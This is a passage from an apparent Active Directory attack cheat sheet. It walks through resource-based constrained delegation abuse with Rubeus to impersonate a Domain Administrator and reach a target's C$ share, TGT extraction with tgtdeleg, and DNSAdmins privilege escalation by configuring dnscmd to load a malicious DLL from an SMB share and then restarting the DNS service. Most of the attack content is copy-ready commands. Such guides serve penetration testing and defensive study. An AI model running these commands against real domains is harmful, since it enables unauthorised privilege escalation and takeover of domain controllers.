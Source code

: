 And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus

```text
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt
```

Finally we can access the C$ drive of the target machine

```text
dir \\TargetMachine.wtver.domain\C$
```

Detailed Articles:

* [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [RESOURCE-BASED CONSTRAINED DELEGATION ABUSE](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)

In Constrain and Resource-Based Constrained Delegation if we don't have the password/hash of the account with TRUSTED\_TO\_AUTH\_FOR\_DELEGATION that we try to abuse, we can use the very nice trick "tgt::deleg" from kekeo or "tgtdeleg" from rubeus and fool Kerberos to give us a valid TGT for that account. Then we just use the ticket instead of the hash of the account to perform the attack.

Command on Rubeus

```text
Rubeus.exe tgtdeleg /nowrap
```

Detailed Article: [Rubeus – Now With More Kekeo](https://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)

### DNSAdmins Abuse

_What is this?: If a user is a member of the DNSAdmins group, he can possibly load an arbitary DLL with the privileges of dns.exe that runs as SYSTEM. In case the DC serves a DNS, the user can escalate his privileges to DA. This exploitation process needs privileges to restart the DNS service to work._

1\) Enumerate the members of the DNSAdmins group:

* PowerView: `Get-NetGroupMember -GroupName "DNSAdmins"`
* AD Module: `Get-ADGroupMember -Identiny DNSAdmins`

  2\) Once we found a member of this group we need to compromise it \(There are many ways\).

  3\) Then by serving a malicious DLL on a SMB share and configuring the dll usage,we can escalate our privileges:

Using dnscmd:

```text
dnscmd <NameOfDNSMAchine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll
```

Restart the DNS Service:

```text
sc \\DNSServer stop dns
sc \\DNSServer start dns
```
